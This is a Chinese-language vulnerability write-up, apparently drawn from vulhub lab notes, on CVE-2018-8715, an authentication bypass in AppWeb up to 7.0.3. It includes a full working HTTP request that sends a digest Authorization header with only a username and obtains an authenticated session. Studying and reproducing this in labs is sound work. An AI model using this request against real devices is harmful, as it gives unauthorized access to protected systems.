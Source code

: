 （CVE-2018-8715）AppWeb认证绕过漏洞
===================================

一、漏洞简介
------------

AppWeb是Embedthis Software
LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web
Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web
Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

-   basic 传统HTTP基础认证

-   digest
    改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头

-   form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

二、漏洞影响
------------

AppWeb \<=7.0.3

三、复现过程
------------

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

    GET / HTTP/1.1
    Host: example.com
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Authorization: Digest username=admin

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![](./resource/(CVE-2018-8715)AppWeb认证绕过漏洞/media/rId24.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![](./resource/(CVE-2018-8715)AppWeb认证绕过漏洞/media/rId25.png)

参考链接
--------

> https://vulhub.org/\#/environments/appweb/CVE-2018-8715/

